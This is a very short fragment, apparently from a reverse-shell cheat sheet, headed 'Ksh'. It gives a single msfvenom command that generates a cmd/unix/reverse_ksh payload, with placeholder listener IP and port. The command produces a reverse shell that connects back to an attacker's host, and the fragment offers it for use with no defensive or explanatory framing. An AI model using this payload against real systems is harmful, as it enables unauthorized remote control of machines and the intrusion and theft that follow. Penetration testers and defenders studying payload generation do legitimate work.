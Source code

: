 # Ksh

## 01 - Generate via `msfvenom`

```
$ msfvenom -p cmd/unix/reverse_ksh lhost=<IP> lport=<PORT>
```